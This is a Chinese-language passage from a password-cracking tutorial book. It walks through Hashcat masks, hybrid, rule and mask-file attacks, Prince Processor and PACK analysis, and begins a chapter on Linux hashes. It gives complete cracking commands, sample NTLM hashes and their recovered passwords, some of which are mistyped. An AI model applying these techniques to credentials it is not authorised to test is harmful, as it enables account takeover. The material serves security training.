在继续之前，理解密码破解中的掩码是什么非常重要。传统的暴力攻击已经过时，掩码为我们的暴力尝试带来了一定程度的智能。本质上，掩码只是你想在任何类型的暴力攻击中使用的字符的符号列表。

你可以使用：

- `?l` – 小写字母

- `?u` – 大写字母

- `?s` – 符号

- `?d` – 数字

- `?h` – 0-9，以及字母 "a-f"

- `?H` – 数字 0-9，以及字母 "A-F"

- `?a` – 任何数字、字母或符号

- `?b` – 二进制 – 从 00 到 ff 的每个十六进制字符

#### 基本暴力攻击

Hashcat 使用 `-a3` 开关进行暴力/掩码攻击 - 你只需输入想要使用的掩码，它将尝试你指定的所有可能字符。暴力破解很强大，但可能非常耗时。一个由 `?a` 组成的 8 字符掩码，强制它尝试每个位置的所有字符、数字和符号，可能需要极长的时间来处理。你可以使用 `?u`、`?i` 或 `?s` 用于特定位置来缩短时间。例如，使用掩码 `?a?!?u?s` 的 `-a 3` 攻击会产生如下猜测：

- RaiN!

- 7laB$

- *upwJ)

由于潜在字符数量减少，它比遍历所有可能的字符组合要快得多。

`?b` 甚至比 `?a` 花费更长时间，因为它会尝试从 `00` 到 `ff` 的每个十六进制字符。这包括标准的数字、字母和符号，还包括扩展 ASCII 字符，如制表符、换行符等外国和特殊字符。但如果你需要暴力破解外国字符，`?b` 非常方便！

#### 混合攻击 – 字典和暴力结合

将字典与掩码一起使用是更高效的时间利用方式。

混合攻击的格式为：

```
-a6 wordlist [mask] 或 -a7 [mask] wordlist
```

1. 使用 `-a6` 攻击：

```
-a6 wordlist.txt ?a?!?l?u?s
```

将生成如下单词：

- catRaiN!

- cat7laB$

- dog\*upW)

2. 使用 `-a7` 攻击：

```
-a7 ?a?!?l?u?s wordlist.txt
```

将生成如下单词：

- RaiN!cat

- 7laB$cat

- \*upW)dog

你可以使用 `-I` 或在任何暴力方法中添加增量标志，这会导致 Hashcat 每次只处理掩码的一个字符。因此，它将遍历整个字典并仅为每个单词添加 `?a` 字符。第二次遍历它将添加 `?a?l`，依此类推，直到掩码中的所有字符都被使用。

第一遍：

- catB

- cat7

- dog*

第二遍：

- catBr

- cat7l

- dog*u

增量攻击非常有效，因为它们会在过程中移除已破解的密码。因此，即使每次从掩码添加新字符都会呈指数级增加破解时间——希望你的待破解密码列表也在同时缩短。

### 破解 NTLM 密码

没有什么比动手实践更好的学习方式了，所以让我们来破解一些哈希值吧！我们将获取一个哈希值列表，并将其复制到一个文本文件中。然后，我们将使用 Hashcat 和一个字典文件来破解它们。同样，我将展示在 Kali Linux 中运行的命令，但在 Windows 中这些命令是完全相同的。

- 打开你喜欢的文本编辑器，并复制以下 NTLM 哈希值：

  - a4f49c406510bdcab6824ee7c30fd852

  - 2e4dbf83aa056289935daea328977b20

  - d144986c6122b1b1654ba39932465528

  - 4a8441c8b2b55ee3ef6465c83f01aa7b

  - 259745cb123a52aa2e693aaacca2db52

  - d5e2155516f1d7228302b90afd3cd539

  - 5835048ce94ad0564e29a924a03510ef

  - b963c57010f218edc2cc3c229b5e4d0f

  - f773c5db7ddebefa4b0dae7ee8c50aea

  - 5d05e3883afc84f1842f8b1c6d895fa4

  - 6afd63afaebf74211010f02ba62a1b3e

  - 43fcca6bae3d14b26427c26d00410ef

  - 27c0555ea55ecfcdba01c022681dda3f

  - 9439b142f202437a55f7c52f6cf82d3

- 将它们保存在 Kali 主目录中，文件名为 `Easyhash.txt`。

- 同时，将 `/usr/share/wordlists` 目录中的 `RockYou.txt` 密码字典文件复制到主目录。你可能需要解压它。

让我们继续尝试破解我们 `Easyhash.txt` 中的哈希值：

1. 打开终端提示符，在 Kali 主目录中输入 `hashcat -D 1 -m 1000 Easyhash.txt rockyou.txt -o cracked.txt`

`-D 1` 参数告诉 Hashcat 使用 CPU。通常你会希望使用 `-D 2` 让 Hashcat 使用 GPU，但我们要在虚拟机环境中操作。`-m 1000` 参数告诉 Hashcat 我们的哈希值是基于 NTLM 的哈希。`Easyhash.txt` 是我们的哈希文件名，`rockyou.txt` 是我们的字典文件名，而 `-o cracked.txt` 则告诉 Hashcat 将破解后的哈希值存储在哪里。

基本上，我们提供了哈希样式、哈希文件名、字典文件和输出文件。攻击选项会改变，但大部分情况下，这就是 Hashcat 一致使用的基本格式。

2. 然后 Hashcat 将开始破解密码并显示状态屏幕。

如下面的图片所示：



3. 完成后，输入 `cat cracked.txt` 查看被破解的哈希值：


```python
kali@kali:~$
$ cat cracked.txt
b963c5701f218edc2cc3c229b5e4d0f:iloveyou
259745cb123a52aa2e693aaacca2db52:12345678
5835048ce94ad0564e29a924a03510ef:password1
5d05e3883afc84f1842f8b1c6d895fa4:jesus
f773c5b7debeff4a0bdae7ee8c50aea:trustin1
6afd63afebf7421110f0f2ba02a1b3e:elizabeth1
a4f49c406510bdcab6824ee7c30fd852:Password
d5e2155516f1d7228302b90afd3cd539:Monkey
43fcfc46bae3d14b26427c26d00410ef:francis123
27c0555ea55ecfcdba01c022681dda3f:duodinaimico
2e40bf83aa056289935daea328977b20:P@$$word
9439b142f202437a55f7c52f6fcf82d3:lophupavever
d144986c6122b1b1654ba39932465528:Administrator
```

就是这样，几秒钟内就破解了 13 个密码。仔细看看这些密码，巧合的是，其中很多在每年的密码泄露数据中都是一致排在前列的密码。使用其中任何一个密码，在密码破解器面前都撑不过不到一秒钟。

#### 破解更复杂的密码

让我们用 `Hashcat` 来看看一些更复杂的密码。

- 获取以下哈希值并将它们保存为主目录中的 `Hardhash.txt`：

  - `31d6cfe0d16ae931b73c59d7e0c089c0`

  - `2e4dbf83aa056289935daea328977b20`

  - `d6e0a7e89da72150d1152563f5b89dbe`

  - `317a96a1018609c20b4ccb69718ad6e7`

  - `2e520e18228ad8ea4060017234af43b2`

- 现在输入 `hashcat -D 1 -m 1000 Hardhash.txt rockyou.txt -o Hardcracked.txt --force`

这一行命令中的所有内容都与之前相同，除了我们将哈希名称改为新的 `Hardhash.txt` 文件，并将输出文件名改为 `hardcracked.txt`。

- 几秒钟后，我们看到以下截图：



好吧，它运行了大约相同的时间，但这次它只能恢复 5 个哈希值中的 2 个。如果我们对 `hardcracked.txt` 文件运行 `cat` 命令，我们会看到一些奇怪的地方：

```
(kali@kali)-[~]
$ cat Hardcracked.txt
31d6cfe0d16ae931b73c59d7e0c089c0:
```

只显示了一个哈希值——一个空密码，这对于该哈希值是正确的。但是第二个被破解的哈希值在哪里？较新版本的 `Hashcat` 如果密码之前已被破解，则不会存储该被破解的密码。它确实破解了第二个哈希值；只是没有将它存储在输出文件中。如果你查看上面两组哈希值，其中一个哈希值是重复的，即密码 `P@$$word` 的哈希值。该密码存储在 `Hashcat` 的 `potfile` 中，所以它没有费力将其存储在输出文件中。这可能会让人有点沮丧，但你可以通过使用 `--potfile-disable` 参数来禁用 `potfile`。我们仍然有三个未破解的哈希值，所以让我们尝试一个更大的字典文件。

#### 使用更大的字典文件

如果第一次没有成功，就尝试使用更大的字典！更大的字典文件提供了更多已知的密码，用于与目标哈希值进行比较。这可以破解更多的哈希值，但由于字典大小的增加，可能会大大延长运行时间。不过我发现最好先运行一个大字典文件，让 `Hashcat` 删除任何已恢复的哈希值。当运行更密集的规则和掩码攻击时，这将使未破解的文件变得更小。**Crackstation.net** 网站提供了一些非常大的单词列表。他们有一个 15GB 的庞然大物和一个较小的“仅人类”版本，约为 700 MB。较大的单词列表几乎包含了你能想象到的一切，而较小的仅人类版本只包含从实际密码泄露数据中恢复的密码。

对于下一次尝试，我直接下载了仅人类单词列表，因为较大的列表在不扩展 Kali 虚拟机硬盘空间的情况下无法容纳。不要仅为这个示例下载它，你稍后就会明白原因。在单词列表下载并解压到桌面后，我运行了以下命令：

```
hashcat -D 1 -m 1000 Hardhash.txt Crackstation-human.txt -o Hardcracked.txt --remove
```

这条命令行没有什么新奇的，除了指定了一个独立的输出文件，但我添加了 `--remove` 参数。对于这么小的哈希列表，这并不真的必要，但在大型列表中，一旦哈希值被破解，它就会被从列表中移除，以增加未来尝试时的破解时间。

结果如下：

```
Time.Started.....: Mon Mar 19 12:22:52 2018 (24 secs)
Time.Estimated...: Mon Mar 19 12:23:16 2018 (0 secs)
Guess.Base.......: File (Crackstation-human.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.Dev.#1.....:  2634.5 kH/s (0.66ms)
Recovered........: 0/3 (0.00%) Digests, 0/1 (0.00%) Salts
```

这大约运行了 30 秒。如你所见，它无法恢复任何新的内容。字典攻击并不总是答案。即使使用较大的 15 GB `Crackstation` 文件，也只揭示了一个额外的哈希值：

`d6e0a7e89da72150d1152563f5b89dbe`: MyNameIsBob

剩下的两个密码将相当难以破解。一个是 15 个字符长并使用特殊字符、大小写字母和一个数字 (`$eCuR@d@CCount1`)，而最后一个非常长，几乎有 30 个字符。如你所见，复杂的密码和非常长的密码在简单的字典攻击下经受住了考验。这个故事告诉我们，单词列表并不总是管用。哦，当然，请使用复杂的密码！

#### 结论

在本章中，我们介绍了使用 `Hashcat` 破解密码的多种方法。使用 `Hashcat` 工具还有许多其他方法，我强烈建议读者花时间了解这个强大的工具。当你深入密码破解时，你会发现许多模式。许多国家使用的一种密码“混淆”技术是使用外语拼写英语单词，使用外语字母表。因此，例如，如果一个俄罗斯人想要在密码中使用单词 `spoon`，他们不会使用勺子的俄语单词，而是直接用他们的字母表拼出英语单词 `spoon`。

你也会遇到很多键盘布局密码。需要记住的一件大事，特别是当处理多国密码时，键盘布局因国家而异。它不一定看起来像熟悉的 `qwerty`。再加上 `Hashcat` 如何显示某些字符（UTF8 到 ANSI），这可能会变得有点令人困惑。

例如：

`1234567890Д¹Ñ+ÑƒĐ°Đµı¹²Đ³Ñ^Ñ%оĐ·Ñ...ÑŚ`

是一个俄语键盘布局遍历：

`1234567890йцукенгшщзхъ`

基本上就是键盘上的 `1-0` 然后是从 `q` 到 `y`。

你可以在 `Hashcat` 中使用字符集来暴力破解外语密码，但我在那方面并没有取得太多成功。我发现使用单词列表或仅仅是二进制字符更有效。但根据你的目标，你可能会取得成功。有关使用字符集进行破解的更多信息，请参阅 `Hashcat` 文档。

最后，许多现代密码是个人姓名（或复数姓名）、日期和符号的组合。我在使用 Facebook 姓名和姓氏单词列表破解这些密码时取得了很大的成功，

与日期和符号的组合。利用我已经介绍过的组合技术，创建这些组合相当容易。许多企业用户目前使用此策略来创建密码，因此我将其作为一个可选练习留给读者去探索。请记住，使用 `hashcat` 组合器工具可以迅速生成巨大的文件，这将会填满硬盘 – 因此在生成列表时请关注你的硬盘空间，并使用 `Ctrl-C` 停止进程。你将不会得到一个完整的组合列表，但你会获得许多可供尝试的候选项，而且你的系统不会因硬盘已满而崩溃！

欲了解更多信息，请访问 `Hashcat` Wiki -

`https://hashcat.net/wiki/`

## 第 7 章

### 更高级的技术


在结束 `Hashcat` 的话题之前，让我们来看看一些更高级的主题。在本章中，我们将更深入地了解 `Hashcat` 规则文件。我们将看看如何使用“掩码文件”为掩码攻击引入一些自动化。让我们来看看 `Prince Processor` 攻击，这是一种使用单词表修改攻击的独特方式。最后，我们将查看一些可能使密码破解更容易的模式和工具。


## 规则和掩码文件

### 基于规则的攻击

之前曾简要提到，基于规则的攻击非常有用。`Hashcat` 拥有一系列内置规则，你可以使用它们来破解密码。你可以在 `Hashcat` 的 `rules` 子目录中找到它们。例如，有一些 `leetspeak`（黑客语）规则集，它们会自动提取每个字典单词并尝试该单词的不同黑客语版本，将字母替换为数字。你甚至可以使用类似编程的语言来创建自己的规则集。

```bash
[kali@kali]:/usr/share/hashcat/rules$ ls
best64.rule
combinator.rule
d3ad0ne.rule
dive.rule
generated.rule
generated2.rule
hybrid
Incisive-leetspeak.rule
InsidePro-HashManager.rule
InsidePro-PasswordsPro.rule
leetspeak.rule
oscommerce.rule
rockyou-30000.rule
specific.rule
T0X1C_3_rule.rule
```

基于规则的攻击在单倍攻击模式中使用。通过使用 `-r` 开关和你想要使用的规则集名称来启用它们：

```bash
[kali@kali]:/usr/share/hashcat/rules$ hashcat -m 1000 ~/Hardhash.txt ~/rockyou.txt -r leetspeak.rule -o ~/cracked3.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian Linux, None+Asserts, RELOC, SPIR, LLVM 14.0.6,
* Device #1: pthread-sandybridge-Intel(R) Core(TM) i7-6700 CPU @ 3.40GHz, 1435/2935 MB

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 5 digests; 5 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 17
```

`Best64`、`InsidePro`、`Dive`、`Rockyou-30000` 和 `d3ad0ne` 规则是一些更受欢迎的规则，且非常有效。我对规则的最佳建议是，先从小型规则文件开始（查看它们的文件大小），然后再转向较大的文件。较小的文件通常运行速度相当快；较大的文件运行时间可能会明显更长。你还可以通过列出你的字典文件夹而不是列出单个字典文件名来同时使用多个字典。`Hashcat` 随后会遍历字典文件夹中的每个单词列表。

你可以通过在 `Hashcat` 命令中添加多个 `-r` 行来同时运行几个小规则。这在 `hybrid`（混合）规则中非常有用。向攻击中添加两个 `Hybrid` 规则将尝试在单词表单词的开头和结尾添加字母、数字或符号。

示例：

```bash
hashcat -D 1 -m 1000 Hardhash.txt rockyou.txt -o Hardcracked.txt -r hybrid/append_ldus.rule -r hybrid/prepend_ldus.rule --remove
```

这将提取一个 `rockyou` 单词列表中的单词，并在两侧添加随机字母、数字或符号，如下所示：

```
Guess.Mod........:  Rules (hybrid/append_ldus.rule, hybrid/prepend_ldus.rule)
Guess.Queue......:  1/1 (100.00%)
Speed.Dev.#1.....: 16746.6 kH/s (12.12ms)
Recovered........:  0/3 (0.00%) Digests, 0/1 (0.00%) Salts
Progress.........:  448062273/129448255425 (0.35%)
Rejected.........:  9025/448062273 (0.00%)
Restore.Point....:  49153/14343297 (0.34%)
Candidates.#1....: {tripletX -> ~IlovejT~}
```

`Rockyou` 单词 `triplet` 被转换为 `{tripletX`，而单词 `ilovej` 则被转换为 `~IlovejT~`。你还可以加入一个 `Toggles`（切换）规则，以便在追加和前置字符的同时将单词中的字母切换为大写或小写：

```
{TripLetX -> ~IloveJT~
```

将多个规则组合在一起可以极大地扩展简单列表的破解能力。我最多使用过三个较小的规则，但到那时你开始面临可用内存不足的问题，`Hashcat` 将会退出。

### 掩码文件

掩码攻击允许你定义暴力破解单词在攻击中将使用的布局。例如，如果你知道目标的密码策略要求包含两个数字、六个大写字母和两个特殊字符，你可以为 `Hashcat` 创建一个掩码。

在这个示例中，它看起来像这样，`?d?d?u?u?u?u?u?u?s?s`：

```bash
hashcat -D 1 -m 1000 Hardhash.txt -o Hardcracked2.txt -a 3 ?d?d?u?u?u?u?u?u?s?s --remove
```

尝试不同的掩码，直到你熟悉它们的工作方式。掩码越长，运行所需的时间呈指数级增长。三字母掩码可能在几秒内完成。10 个以上字符的掩码可能需要数小时甚至数年才能运行完毕。`Hashcat` 还允许使用“掩码文件”代替手动提供掩码。基本上，掩码文件只是一个包含多个掩码的文件。`Hashcat` 附带了示例掩码，可以在 `masks` 子目录中找到。

以下是 `Rockyou-1-60.hcmask` 的截图：



要使用掩码文件，你只需提供掩码文件名，而不是在 `Hashcat` 命令行中键入手动掩码。

```bash
hashcat -m 1000 Hardhash.txt -o cracked3.txt -a 3 rockyou-1-60.hcmask --remove
```

```
Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 1000 (NTLM)
Hash.Target......: /home/kali/Hardhash.txt
Time.Started.....: Mon Mar   6 16:20:05 2023
Time.Estimated...: Mon Mar   6 16:20:05 2023
Kernel.Feature...: Pure Kernel
Guess.Mask.......: 2l2l2l2l?d [5l]
```

运行时，`Hashcat` 将遍历文件，逐一使用列出的每个掩码。如前所述，掩码越长，运行所需的时间就越长。这就是为什么如果你有兼容的显卡，在独立系统（非虚拟机）上始终使用显卡 GPU 来加快速度是最好的选择。你可以通过使用 `"-D"` 开关切换到 GPU，你还可以在末尾使用 `"-O"` 开关，这不会破解极长的密码，但能极大地提高破解速度。

## PRINCE PROCESSOR 攻击

- 工具 GitHub: [https://github.com/hashcat/princeprocessor](https://github.com/hashcat/princeprocessor)

- 发布版本: [https://github.com/hashcat/princeprocessor/releases](https://github.com/hashcat/princeprocessor/releases)

`Prince Processor` (`PP`) 是一种高级单词表组合器攻击。它可以利用单个单词表文件执行复杂的单词表攻击。首先，设置一个最小密码长度，然后提供一个要使用的单词表。`PP` 随后会获取你提供的长度，并开始从现有文件中的多个单词构建该长度的单词。例如，如果你设置单词长度为 6，它可以提取一个单词中的全部 6 个字母，或者从 6 个单词中各取 1 个字母，或者从 3 个单词中各取 2 个字母，以及中间的任何组合。

然后 `PP` 将这些新单词实时传入 `hashcat`。`Hashcat` 将这些单词作为常规单词表使用，并对其进行破解。它的速度并非惊人的快，但如果你用尽了其他选项，这是一种有趣的技术。`Prince Processor` 适用于 Linux、Windows 和 Mac。

以下是 Windows 上的示例：


```
pp64.exe --pw-min=12 < HugeWordlist.txt | hashcat64 -D 2 --remove -m 0 uncracked.txt -o cracked.txt -O
```

我在使用 Prince Processor 时得到了参差不齐的结果，它的功能非常令人印象深刻，但速度损失巨大。这就是为什么我在我的 Windows 游戏系统上运行它。尽管单词表的大小似乎并没有真正影响速度。Prince Processor 本身速度极快，我认为瓶颈更多在于将输出管道传输到 Hashcat。不过我发现将单词表输入 Prince Processor，然后直接输出到文本文件，再将其作为常规单词表使用，速度快得多。

### Prince Processor

看起来你还可以在 PP 中使用两个独立的字典，并且它似乎会从两者中获取单词：

```
pp64.exe --pw-min=10 < HugeWordlist.txt SecondWordlist.txt > PrinceHugeSecond.txt
```

缺点是这会导致单词列表文件迅速变得非常庞大。除非你拥有非常大的硬盘，否则不要让它运行超过几秒钟。特此警告！

我出于兴趣破解了许多复杂的列表，但在 PP 方面成果甚微。不过，将 PP 生成的单词列表（如上面的 `PrinceWordlist.txt`）拿去在 Hashcat 中结合 Hashcat 规则运行，对我而言取得了一定的成功。最后，Prince Processor 附带了两条规则，你可以使用它们进一步修改单词，就像在普通 Hashcat 中那样。

有关 Prince Processor 规则的更多信息，请参阅其网页：

`https://github.com/hashcat/princeprocessor/tree/master/rules`

### 密码破解 - 模式

在破解密码时，总要寻找已破解密码中的模式。人类是习惯和熟悉事物的生物，因此几乎总是存在模式。一旦你掌握了模式，就可以利用这些模式创建自定义字典。例如，在处理一份包含其他黑客尚未能破解的密码的公共密码转储合并文件时，我在转储中发现了字符编码。当数据库存储哈希时，它并没有使用 `&`（and）、撇号、引号、小于号或大于号符号，而是将它们转换为 HTML（或 XML）字符编码，然后再进行哈希处理。因此，密码数据库中存储的不是“&”，而是“&amp;”。或者，它使用了十进制 ASCII 代码，如“&#038;”。

因此，密码 `"behappy&"` 变成了 `"behappy&amp;"`。随后，它被转换为哈希值并存储。在破解这些密码时，你需要使用字符编码来创建字典。

我使用转储中观察到的所有字符编码创建了一个自定义字典，包括：

- `&amp;`
- `&apos;`
- `&quot;`
- `&lt;`
- `&gt;`
- `&#038;`
- `&#039;`
- `&#032;`
- `&#033;`
- `&#034;`
- `&#035;`
- `&#037;`

我将其与我的标准字典结合使用，只找到了少数几个。问题在于，这些代码通常位于密码中间，用于分隔两个或多个单词。使用 Hashcat 工具很容易复制这一点。

我使用 `"combinator3"` 命令结合两个非常短的字典，并将我的自定义列表放在中间：

```
combinator3 1K_wordlist.txt CustomCodes.txt 1K_wordlist.txt > word_custom_word.txt
```

`警告！！` `在使用 combinator 尤其是 combinator3 时必须非常小心。它们使用输入单词的所有可能组合创建一个字典，因此输出将比单独的输入字典呈指数级增长。如果你使用大列表，它们（将会！）填满你的硬盘——已对你发出警告！`

这种组合破解了大量密码，我知道我走在正确的轨道上——但我需要一个更大的字典。为了避免使用更大的列表对 `combinator3` 的风险，我只是使用 `combinator` 结合我的自定义字典和一个包含 100 万单词的字典。

```
combinator CustomCodes.txt 1M_wordlist.txt > custom_1Mword.txt
```

然后，我可以使用这个新字典，并在 Hashcat 中使用 `"a1"` combinator 攻击，我可以使用其他字典作为开头，使用自定义 100 万单词列表作为结尾。

```
hashcat64 -D 2 --remove -m 0 hashes.txt -o cracked.txt -a1 10MillionWords.txt custom_1Mword.txt
```

Hashcat 随后获取了我 1000 万单词的字典，并将其中的每个单词与我的自定义代码和 100 万单词字典相结合。这破解了非常大量的密码！

被破解的密码看起来像这样：

```
ocean&;river15
toast&;brot
anoud&;hamdan123
mammy&;ffion
vanee&;juan98
```

这只是破解过程中的一个例子：分析你已拥有的被破解密码，寻找模式，然后创建自己的自定义字典。然后，使用 Hashcat 将自定义字典与其他字典结合使用，以取得胜利！

### 使用已破解的密码来破解新密码

一种最好的高级破解技术是使用已破解的密码作为字典，然后使用它们进行组合攻击或对它们运行规则。通过解析 Hashcat 的破解输出文件即可轻松完成此操作。输出文件将包含原始哈希值、冒号，以及被破解的密码。我们要做的只是移除哈希值和冒号，然后将文件重新保存为一个新的字典。

Linux 文本处理命令非常适合解析字典。特别是 `"cut"` 命令。你只需要弄清楚哈希值和冒号在哪里结束，然后切出密码并将其保存到新文件中。在下面的字典示例中，密码从第 34 列开始。

```
cut -c34-128 cracked.txt > crackedwl.txt
```

```
(kali@kali) - ~/Desktop
head cracked.txt
fc7075dcdcbc2473f123b963e0e6f:5apinbrumeux
4ad5f0f0c5eeacafdf878e89eec460c8:victorieusescals
9c16657819ce138393ca44605c978296:idyllechassures
0d08dc6f3f87515d420031a91bbc8460:jupecloutee
6c731281893238743c43aa0b031dd345:aller courageuse
963a650665e9a52e25fc048432062556:achatsdepenses
14a6e06e9ce76b91d8c25ca06333a3d2:hydratantefficace
138be4dafd1a5485558309d4264ba082:mailleenchaine
3af23e313fb8f1c80f420d29bb6f0421:ornefourrure

(kali@kali) - ~/Desktop
cut -c34-128 cracked.txt > crackedwl.txt

(kali@kali) - ~/Desktop
head crackedwl.txt
sapinbrumeux
victorieusescals
idyllechassures
jupecloutee
aller courageuse
achatsdepenses
hydratantefficace
mailleenchaine
ornefourrure
```

在创建自己的字典或合并现有字典时，另一种有用的技术是排序并去除重复项：

```
sort wordlist.txt | uniq -d > finalwordlist.txt
```

当你将几个字典合并为一个新字典时，这种技术非常有效。

### PACK - 密码分析和破解工具包

工具作者：Peter Kacherginsky (`iphelix`)

工具 GitHub：`https://github.com/iphelix/pack`

最后，让我们快速看看其他一些有用的密码工具。PACK 是一组用于高级密码分析和破解的工具。PACK 使统计分析和创建掩码及规则变得非常容易。

```
git clone https://github.com/iphelix/pack.git
```



分析被破解字典的模式和统计数据：

```
python2 statsgen.py crackerdwl.txt
```


```
[*] Character-set:
[+]               numeric: 68% (338452)
[+]      loweralphanumeric: 10% (50445)
[+]      mixedalphanumeric: 09% (44627)
[+]      loweralpha: 03% (18789)
[+]      all: 02% (14243)
[+]      loweralphaspecialnum: 02% (10292)
[+]      mixedalpha: 01% (5336)
[+]      loweralphaspecial: 00% (4133)
[+]      upperalphanumeric: 00% (2676)
[+]      mixedalphaspecial: 00% (1367)
[+]      upperalpha: 00% (833)
[+]      upperalphaspecialnum: 00% (558)
[+]      specialnum: 00% (552)
[+]      special: 00% (203)
[+]      upperalspecial: 00% (71)
```

你可以使用 PACK 工具包中的工具从字典创建掩码：

- `statsgen.py crackedwl.txt -o crackedwl.masks`
- `maskgen.py crackedwl.masks --occurrence -q -o crackedwl.hcmask`

（你还可以使用 `--targettime` 来限制破解时间）

```
┌──(kali㏒kali)∼[~/pack]
└─$ python2 maskgen.py crackedwl.masks --occurrence -q -o crackedwl.hcmask
[*] Analyzing masks in [crackedwl.masks]
[*] Saving generated masks to [crackedwl.hcmask]
[*] Using 1,000,000,000 keys/sec for calculations.
[*] Sorting masks by their [occurrence].
[*] Finished generating masks:
Masks generated: 26837
Masks coverage: 100% (492577/492577)
Masks runtime: >1 year
```

你现在拥有了一个包含 Hashcat 破解掩码的文件：

```
(kali@kali) ~/pack
$ cat crackedL.hcmask
?d?d?d?d?d?d?d?d?d?d?d?d?d?
?d?d?d?d?d?d?d?d?d?d?d?d?d?
?
```

这会返回大量掩码，正如你所见，破解时间超过一年。我们没有那么多时间，所以让我们看看是否可以微调该列表。我们将使用 `targettime` 来做到这一点。

```
python2 maskgen.py crackedwl.masks --targettime 900 --optindex -q --showmasks
```

这将返回一个优化掩码列表，预计应在 15 分钟左右完成。然后，你可以使用常规的 `-a3` 掩码攻击将此文件输入 Hashcat，它将依次使用文件中的每个掩码。有点像自动化暴力破解攻击！

```
hashcat -D 2 --remove -m 0 uncracked.txt -o cracked.txt -a3 quickmasks.hcmask -O

Session..........: hashcat
Status...........: Running
Hash.Type........: MD5
Hash.Target......:
Time.Started.....: Sat Jul 17 21:11:04 2021 (2 secs)
Time.Estimated...: Sat Jul 17 21:11:27 2021 (21 secs)
Guess.Mask.......: ?u?d?d?!?d?d?u?d?d [9]
Guess.Queue......: 3/108 (2.78%)
```

Hashcat 将使用每个掩码运行暴力破解攻击，一个接一个，直到到达文件末尾。统计数据和掩码是帮助破解困难密码哈希列表的非常有用的工具。这仅仅是 PACK 工具的快速概览，请访问工具网站获取更深入的说明。

破解密码的工具和技术种类繁多。一位朋友问我对破解密码是什么感觉，我告诉他们：“它就像是国际象棋和开锁术的结合。”事实确实如此。每次面对新的密码转储时，感觉都略有不同。很多人倾向于使用一些相似的密码，但要获取所有密码，你通常需要进行大量的分析和策略制定。希望这里涵盖的战术和技术能让你在密码破解的道路上迈出坚实的一步！

### 第 8 章：破解 Linux 密码

正如 Windows 中的密码哈希可以被破解一样，Linux 系统也面临着同样的风险。你只需要拥有 root 级别的访问权限来获取哈希值，并配备一款良好的密码攻击工具即可破解它们。在本章中，我们将使用 John the Ripper 来尝试破解 Linux 密码。随后，我们将介绍其他几种可用于破解服务器应用密码并执行自动化攻击的工具。

在进入本章的核心内容之前，让我们先看看一些实际的 Linux 密码哈希。以下是两个 Linux 密码哈希，第一个来自 Metasploitable2，第二个是我在我的 Kali Linux 机器上创建的一个用户。

1. `msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/`
2. `dan:$6$miC/IqYE$eAHWWJ2S61YKukO.Amlriu4JNCru9vkcyzFndynlrJGF6QjfCjV0Sd70CSmX0Sp9xmthpr11yOR4QTSpJCYN/`

NTLM 密码与 Linux 密码之间的主要区别在于，Linux 密码是经过加盐处理的。盐 `salt` 是一个唯一的字符串，用于编码每个密码，使得即使两个用户使用了完全相同的密码，其生成的密码哈希值也不同。这样，任何两个哈希值都不会相同。

我们在下面分解密码哈希的内容：



第 1 部分是用户名。第 2 部分是加密类型，加密类型为 1 表示它使用的是 128 位加密。第 3 部分是该密码哈希使用的盐。最后，第 4 部分是实际的哈希值。

请注意，来自较新版本 Linux 的第二个哈希值的格式完全相同，但长度要长得多。该哈希值使用的是加密类型 6，这意味着它使用的是 512 位加密，因此哈希值更长。这是一种更强大的加密方式，但在破解它们时其实不需要做任何不同的事情，因为 John the Ripper 会自动检测正确的哈希算法并相应地进行破解。

在破解 Windows NTLM 密码时，你会遇到许多相同的哈希值，因为用户使用了相同的密码。这是因为 Windows NTLM 哈希不使用盐。因此，如果在 Windows 中有两个或更多用户使用了完全相同的密码，其 NTLM 密码哈希值将是相同的。但在 Linux 中并非如此。如果用户使用了相同的密码，所使用的盐会为每个用户生成不同的哈希值。下面的哈希值来自在 Kali Linux 中使用了密码 `password` 的两个用户（Dan 和 Alice）：



请注意，Linux 哈希值彼此完全不同（盐值也是）。在大范围的密码哈希转储中破解密码时，由于总是有用户使用相同的密码，这会造成巨大的时间差异。如果不使用盐，你可以一次性获取所有相同的密码；如果经过加盐，你必须逐个破解每个哈希值。好了，关于哈希格式的讨论到此为止，让我们看看如何从系统中获取 Linux 密码哈希。

#### 获取 Linux 密码

